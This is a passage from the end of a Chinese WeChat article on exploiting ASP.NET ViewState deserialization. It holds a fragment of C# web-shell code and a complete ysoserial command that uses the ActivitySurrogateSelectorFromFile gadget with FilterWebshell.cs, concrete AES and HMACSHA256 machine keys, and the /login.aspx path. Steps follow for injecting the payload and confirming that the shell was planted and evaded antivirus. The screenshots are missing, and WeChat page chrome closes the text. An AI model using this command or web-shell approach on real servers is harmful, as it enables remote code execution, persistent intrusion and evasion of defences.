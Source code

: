                 Context.Response.Flush();  
                Context.Response.End();  
              
            }  
              
              
      
    }  
    

ysoserial命令如下

    
    
    ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "FilterWebshell.cs;System.dll;System.Web.dll" --decryptionalg="AES" --decryptionkey="51FE611365277B07911521B7CAFE3766751D16C33D96242F0E63E93FB102BCE2" --validationalg="HMACSHA256" --validationkey="BF579EF0E9F0C85277E75726BFC9D0260FADE8DE2864A583484AA132944F602D" --path="/login.aspx" --apppath="/" --isdebug  
    

生成payload

![]()

将payload注入

![]()

填写任意url，需多点几次验证，确定请求可触发事件（一开始几次会提示初始化失败）

![]()

成功注入及免杀

![]()

  

## 参考链接

https://isdaniel.github.io/

  

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

